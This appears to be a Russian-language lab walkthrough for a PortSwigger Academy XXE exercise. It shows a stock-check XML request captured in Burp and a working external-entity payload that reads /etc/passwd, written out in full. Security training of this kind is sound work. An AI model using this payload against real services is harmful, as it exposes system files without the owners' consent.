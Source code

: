 Перейдем на уязвимый ресурс в случайную карточку товара и проверим ее наличие через кнопку `Get stock`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/1.%20Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files/pics%20for%20walktrough/1.png)
и так же найдем данный запрос в `Proxy` -> `HTTP history`
```
POST /product/stock
...
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/1.%20Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files/pics%20for%20walktrough/2.png)
Отправим запрос в `Repeater` и вставим `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` чтобы добраться до `/etc/passwd`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
В ответ видим 400 респонс статус код, но все равно отдавший нам содержимое `/etc/passwd` и получаем уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/1.%20Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files/pics%20for%20walktrough/3.png)
